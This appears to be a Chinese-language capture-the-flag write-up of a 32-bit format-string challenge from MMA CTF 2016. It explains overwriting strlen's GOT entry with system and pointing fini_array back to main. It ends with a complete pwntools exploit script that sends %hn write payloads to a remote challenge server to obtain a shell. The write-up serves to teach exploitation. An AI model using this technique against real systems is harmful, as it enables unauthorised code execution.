


这个题来自 [攻防世界](https://adworld.xctf.org.cn/) 的进阶区

ps: 其实是来自于 mma CTF 2016 ，只是我个人是在攻防世界做到的，入门尚浅

## 分析

checksec 一下



是 32 位的程序，再 IDA 静态分析


可以看到，存在格式化字符串漏洞，再看看读取字符串的函数 `getnline`



找到输入的字符串中第一个 '\n' 并且讲其修改为 '\0' 之后，调用 `strlen`

又发现居然存在 `system` 函数，并且程序没有开启 RELRO 保护，可以修改 GOT 表

于是考虑把 GOT 表中 `strlen` 指向 `system` 函数，然后再想办法传入字符串 `"/bin/sh"`

因为 Linux 的程序的执行流程，是把 `main` 函数作为参数传给 `__libc_start_main` 的，并且在执行完 main 后其实还有其他工作，具体的可以参见下面这张图片


在执行完 `main` 后还会调用 `finiarray` 和 `destructor` 等函数，所以考虑修改 GOT 表中 `finiarray` 项指回 `main` 函数，这样在第一次输入完字符串之后还会再调用一次 `main` 函数，就可以输入两次，第一次修改 GOT 表，第二次就传入字符串 `"/bin/sh"` 拿到 shell

## exp

```python
from pwn import *

r = remote("111.198.29.45", 43938)

strlen_got = 0x08049a54
fini_got = 0x08049934

# len("Nice to meet you, ") = 18
payload = b"aa" + p32(fini_got+2) + p32(strlen_got+2) # 18 + 10 = 28
payload += p32(strlen_got) + p32(fini_got)            # 28 + 8 = 36
payload += b"%2016c"  # 36 + 2016 = 2052  ==> 0x0804
payload += b"%12$hn"
payload += b"%13$hn"
payload += b"%31884c" # 2052 + 31884 = 33936 ==> 0x8490  ==> 0x08048490 ==> system_plt
payload += b"%14$hn"
payload += b"%349c"   # 33936 + 349 = 34285 ==> 0x85ed  ==> 0x080485ed ==> main_addr
payload += b"%15$hn"

# print(payload)

r.sendlineafter("name... ", payload)

# r.sendlineafter("name... ", b"/bin/sh")
r.interactive()

```

